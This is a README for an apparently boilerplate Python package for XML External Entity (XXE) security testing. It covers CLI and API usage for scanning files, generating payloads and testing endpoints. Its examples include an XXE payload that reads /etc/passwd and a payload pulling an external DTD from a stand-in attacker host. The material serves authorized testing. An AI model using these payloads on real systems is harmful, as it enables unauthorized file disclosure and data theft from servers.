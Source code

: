 # XXE PyPI Package

[![PyPI version](https://badge.fury.io/py/xxe.svg)](https://badge.fury.io/py/xxe)
[![Python Versions](https://img.shields.io/pypi/pyversions/xxe.svg)](https://pypi.org/project/xxe/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

A comprehensive Python package for XML External Entity (XXE) security testing and analysis. This package provides tools for security researchers and ethical hackers to identify and analyze XXE vulnerabilities in XML processing systems.

⚠️ **IMPORTANT: This tool is for educational and authorized security testing purposes only. Only use on systems you own or have explicit permission to test.**

## Features

- 🔍 Advanced XXE vulnerability detection
- 📊 Detailed security reports and analysis
- 🛠️ Customizable payload generation
- 🧪 Automated test harness
- 🔒 Secure XML processing utilities
- 📝 Comprehensive logging and reporting

## Installation

```bash
pip install xxe
```

## Quick Start

## Command Line Interface

The XXE package includes a command line interface (CLI) for easy integration into your workflow. After installing the package, you can use the `xxe-scan` command to perform scans directly from the terminal.

### Usage

```bash
xxe-scan --help
```

This will display the help message with all available options and usage instructions.

### Example

To scan an XML file for vulnerabilities:

```bash
xxe-scan analyze-file example.xml
```

To generate a custom payload:

```bash
xxe-scan generate-payload --file-path /etc/passwd
```

To test an endpoint with a payload:

```bash
xxe-scan test-endpoint --url http://example.com/xml-endpoint --payload '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>'
```

```python
from xxe import XXEAnalyzer, XXETestHarness, XXEPayloads

# Basic file analysis
analyzer = XXEAnalyzer()
report = analyzer.analyze_file("example.xml")
print(f"Found {report['summary']['total_vulnerabilities']} potential vulnerabilities")

# Generate test payload
payload = XXEPayloads.generate_custom_payload(file_path="/etc/passwd")

# Run security test
harness = XXETestHarness(target_url="http://example.com/xml-endpoint")
result = harness.test_endpoint(payload)
```

## Detailed Usage

### 1. XML File Analysis

```python
from xxe import XXEAnalyzer

# Create analyzer with verbose output
analyzer = XXEAnalyzer(verbose=True)

# Analyze XML file
report = analyzer.analyze_file("target.xml")

# Print detailed results
print(f"Scan completed at: {report['scan_time']}")
print("\nVulnerabilities Summary:")
print(f"High: {report['summary']['severity_counts']['HIGH']}")
print(f"Medium: {report['summary']['severity_counts']['MEDIUM']}")
print(f"Low: {report['summary']['severity_counts']['LOW']}")

# Print detailed findings
for vuln in report['vulnerabilities']:
    print(f"\nType: {vuln['type']}")
    print(f"Severity: {vuln['severity']}")
    print(f"Description: {vuln['description']}")
```

### 2. Payload Generation and Testing

```python
from xxe import XXEPayloads, XXETestHarness

# Get built-in payloads
payloads = XXEPayloads.get_basic_payloads()

# Generate custom payload
custom_payload = XXEPayloads.generate_custom_payload(
    url="http://attacker.com/evil.dtd"
)

# Create test harness
harness = XXETestHarness(target_url="http://target.com/xml")

# Run individual test
result = harness.test_endpoint(custom_payload)
print(f"Response Code: {result['status_code']}")
print(f"Response Time: {result['response_time']}s")

# Run full test suite
results = harness.run_test_suite()
```

### 3. Secure XML Processing

```python
from xxe import create_secure_xml, validate_xml_security

# Create secure XML
content = "<data>Example content</data>"
secure_xml = create_secure_xml(content)

# Validate XML security
is_safe, validation_report = validate_xml_security("input.xml")
if not is_safe:
    print("Security issues found!")
    print(validation_report)
```

## Security Features

The package includes various security features:

- DOCTYPE declaration detection
- Entity injection analysis
- External reference checking
- Comment analysis for sensitive data
- Encoding validation
- Comprehensive vulnerability reporting

## Best Practices

1. Always obtain proper authorization before testing
2. Document all testing activities
3. Follow responsible disclosure practices
4. Use secure configurations in production
5. Keep the package updated to the latest version

## Logging

The package uses Python's built-in logging module. To configure logging:

```python
import logging

logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
```

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request. For major changes, please open an issue first to discuss what you would like to change.

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Version History

- 0.2.0: Added comprehensive test harness and payload generation
- 0.1.0: Initial release with basic XXE analysis

## Support

- Documentation: [https://xxe.readthedocs.io/](https://xxe.readthedocs.io/)
- Issue Tracker: [https://github.com/yourusername/xxe/issues](https://github.com/yourusername/xxe/issues)
- Security Issues: Please report security issues directly to security@yourdomain.com

## Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for obtaining appropriate permissions before testing any systems. The authors are not responsible for misuse or damages caused by this tool.

## Authors

- Your Name ([@yourgithub](https://github.com/yourgithub))

## Acknowledgments

- Security researchers and ethical hackers who contributed to XXE research
- The Python security community
- All contributors to this project